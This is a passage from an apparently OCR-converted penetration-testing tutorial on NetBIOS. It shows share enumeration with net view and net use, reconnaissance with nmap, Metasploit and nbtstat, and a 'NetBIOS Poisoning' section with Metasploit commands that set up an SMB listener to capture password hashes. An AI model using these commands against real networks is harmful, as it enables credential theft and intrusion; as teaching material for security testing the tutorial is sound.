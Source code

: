 Shares can be listed.

| 1  | Windows: net view \\\\TargetNetBIOSName  |
|----|------------------------------------------|

![Shares listed with net view command.](media/eedd38e768301b752239ec3e9e83126f.png)Shares listed with net view command.

Sharing can be mapped.

| 1  | Windows: net use T: \\\\TargetNetBIOSName\\SharedFolder  |
|----|----------------------------------------------------------|

![Shares mapped with net use command.](media/6444e3eefbf71361e41f4ad8baa1e724.png)Shares mapped with net use command.

Other Information Gathering Methods for Different Platforms

| 1 2 3 4 5  | nmap --script=broadcast-netbios-master-browser 10.10.x.x msf\> use auxiliary/scanner/netbios/nbname_probe (deprecated) \# on Windows nbtstat -A 10.10.x.x nbtstat -c  |
|------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------|

NetBIOS Poisoning

NetBIOS Poisoning with Metasploit

For protocols such as SMB and HTTP, various modules are available on the Metasploit Framework that can capture the handshake authentication issue. Capturing the password hash over SMB requires using the auxiliary/server/capture/smb module

| 1 2 3 4 5 6  | msf6\> use auxiliary/server/capture/smb msf6 auxiliary(server/capture/smb) \> set SRVHOST 192.168.56.104 \# Attacker IP msf6 auxiliary(server/capture/smb) \> set logfile /tmp/logfile msf6 auxiliary(server/capture/smb) \> set johnpwfile /tmp/john-smb msf6 auxiliary(server/capture/smb) \> set cainwpfile /tmp/cain-smb msf6 auxiliary(server/capture/smb) \> run  |
|--------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
